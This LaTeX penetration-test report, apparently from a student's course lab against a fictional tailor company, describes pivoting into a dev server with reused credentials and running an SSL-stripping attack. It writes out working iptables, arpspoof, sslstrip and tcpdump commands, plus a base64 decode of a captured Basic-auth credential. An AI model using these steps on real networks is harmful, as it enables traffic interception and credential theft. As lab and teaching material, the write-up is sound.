%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test - Exercise 0e0}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage
\section{Technical Report}

% Include one of these headings for each finding.

  \subsection{Finding: \emph{Devbox Root Access}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
	\cvss(L,L,H,R,U,H,H,L,6.1)
		
  	\subsubsection*{Vulnerability Description}
    Root access to any of the host servers will allow the attacker to potentially shut down services and gain access to other sensitive information. A way into
    devbox was found using previously found credentials from user l.strauss.

  	\subsubsection*{Confirmation method}
    To gain access to devbox, you must first sign in as admin user pr0b3 on costumes and then ssh back to kali as follows.
 \begin{verbatim}
ssh -R 1081 kali@172.24.0.10
  \end{verbatim}
    Once the connection is established, from kali we can run the following command
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    The real password is concealed, however this allowed us to gain root access to devbox.

	\subsubsection*{Mitigation or Resolution Strategy}
    The best mitigation for this would be to have l.strauss change his credentials and avoid storing all passwords in plaintext at all costs. Easily discoverable passwords
    led to this attack to begin with.

    \subsection{Finding: \emph{Credential Access to Secret Page}}
  
	\subsubsection*{Severity Rating}	    
    Risk: Medium \\
    \cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
    Once the attacker has root access to the system, they can copy over sslstrip, tcpdump, and arpspoof to packet sniff incoming and outgoing packets. They can use these packets to 
    mount an SSL stripping attack. The attacker can then use arpspoof to mount a man in the middle attack. The TLS packets that are normally encoded can then be unencrypted using sslstripping
    tools which reveals a set of credentials as well as a secret website with sensitive user information. We can see an invoice for a set of superhero gauntlets which is information that should
    not be known by the public. 
   
  	\subsubsection*{Confirmation method}
    We can scp over the initial files we need to mount the attack. Once we have all the essential executables, we can execute the following commands as a root user.
\begin{verbatim}
fuser -k 80/tcp
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT 
--to-port 6166

python3 sslstrip.py -w strip.logs -l 6166 -a
tail -f strip.log
TWO DIFFERENT TERMINALS:
route -n to find gateway (10.70.184.1)
wireshark to find host ip to spoof (10.70.184.101)
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
   
	\subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this issue, we have to make sure that an attacker should never be able to get root access. Changing user credentials and enforce stricter guidlines for what users have root acces
    needs to be enforced. There are also methods to make sure that HTTPS is always enforced and to not provide HTTP alternatives for any HTTPS requests. 
    

    



\section{Attack Narrative}

    \subsection{Initial Access}
    To gain initial access to devbox, there are a few steps we had to follow. First we need to start the ssh server on the kali machine and then connect from costumes as follows
\begin{verbatim}
sudo service ssh start
rdesktop innerouter.artstailor.com
\end{verbatim}
    From there, log in as pr0b3 and then open up command prompt as admin and type the following
\begin{verbatim}
ssh -R 1081 kali@172.24.0.10
\end{verbatim}
    Once we have established the connection, we can use proxychains to gain access to devbox. We found in previous exercises that devbox was a linux machine and port 22 was open and listening. We also
    found from the previous exercise a list of passwords on l.strauss's account, one of them labeled linux. I decided to try his username and the password found in the creds file to log in to the devbox
    machine. 
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    Once inside, running sudo su and then retyping the password revealed that l.strauss was in fact in the list of sudoers and therefore has root access to the machine.
    \subsection{Setup}
    We can now move our tools we needed to run on this machine using scp as follows
\begin{verbatim}
proxychains scp -r sslstrip-extras l.strauss@devbox.artstailor.com
\end{verbatim}
    In the ssh session, we can unpack the tools we need as follows
\begin{verbatim}
cd sslstrip-extras
gunzip sslstrip3.tgz
tar -xf sslstrip3.tar
\end{verbatim}
    We now have the tools we need.

    \subsection{Packet Sniffing}
    The next course was to scan some possible packets to see how to use our sslstrip. To do this, we can use the tcpdump that came in the directory we imported over. We can
    leave tcpdump on for a few minutes to get a comprehensive list of packets to examine. To do this, we can run the following command
\begin{verbatim}
sudo ./tcpdump -i ens32 -w ~/capture.pcap -Z l.strauss
\end{verbatim}
    and then scp this over to our kali machine and examine it with wireshark for any suspicious packets
\begin{verbatim}
scp l.strauss@devbox.artstailor.com:capture.pcap ./
wireshark capture.pcap
\end{verbatim}
    Using the filter tcp.port == 80 | tcp.port == 443 yielded a big list of packets, but the ones I found more useful are the TLSv1.3 packets. These are the packets I would want to target with sslstrip

    \subsection{SSL Strip}
    Now that we had the packets we want to sniff and a possible host, we needed to get a little more information. To use arpspoof, we use the host IP we found from wireshark, but we also need the gateway
    ip address. To do this, we ran the command route -n and got the ip 10.70.184.1. We now had the gateway ip and the ip we found from wireshark 10.70.184.101. We now had to get the right conditions set up
    for SSLStrip to work, so we read the readme and executed the following commands as a super user
\begin{verbatim}
sudo su
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT
--to-port 6166

fuser -k 80/tcp
\end{verbatim}
    We are now terminating the processes on port 80 and then redirecting traffic that was to go to port 80 to port 6166. Next was to run arpspoof on two different terminals
    with the host and gateways flip flopped to complete the man in the middle attack
\begin{verbatim}
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
    We are now ready to start the sslstrip as follows
\begin{verbatim}
python3 sslstrip.py -w strip.logs -l 6166 -a
Control z
bg
tail -f strip.logs
\end{verbatim}
    This allows us to run sslstrip in the background and see if strip.logs is updated. After several minutes of leaving it running, we can see three main pages being sent over and over again. 
    One of them is an error page if the user does not type in their credentials, but two of them are secret pages \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0e0/page2} \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0e0/page1} \\
    We can look through the text being displayed and find an interesting field that says authorization : basic and what appears to be base64 encoded text. We can copy this text and decrypt it as follows
\begin{verbatim}
printf 'Yy5zdGVhZG1hbjpLRVkwMTUtalh1UGtNcjVWM0Z2MkxzUUZNTEMydz09' | base64 -d
c.steadman:KEY015-jXu...LC2w==
\end{verbatim}
    We now have a key that doubles as the password for credentials. For the privacy of the customer, the key has been partially censored

    \subsection{Website Exploration and Big Reveal}
    The previous step yieled us with two pages. We can open those pages on our browser. We are prompted with a login icon, we can use the credentials found in the previous step to login. Once we are
    in, we see that the two web pages hold no real importance in terms of content. However, we go from artstailor.com/Corp straight to artstailor.com/Corp/secret/page2.html. While neither of these two 
    pages on their own are important, we can see that there is one page that might yield results: \textbf{artstailor.com/Corp/secret}. Going to this page shows us an invoice from
    c.steadman along with some credentials for an account (key). Examining the invoice shows us a big reveal. Arts Tailor Shoppe makes superhero costumes for the government and is not just a regular 
    tailor shoppe. \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex0e0/invoice} \\


    \subsection{MITRE ATT{\&}CK Framework TTPs}
    
	
	\subsubsection*{}
    \indent\textbf{TA0006} Credential Access \\
    \indent\indent\textbf{T1040} Network Sniffing \\
	
	\subsubsection*{}
    \ttp(TA0006, Credential Access, T1557, Adversary-in-the-Middle, .002, ARP Cache Poisoning) 


\end{document}
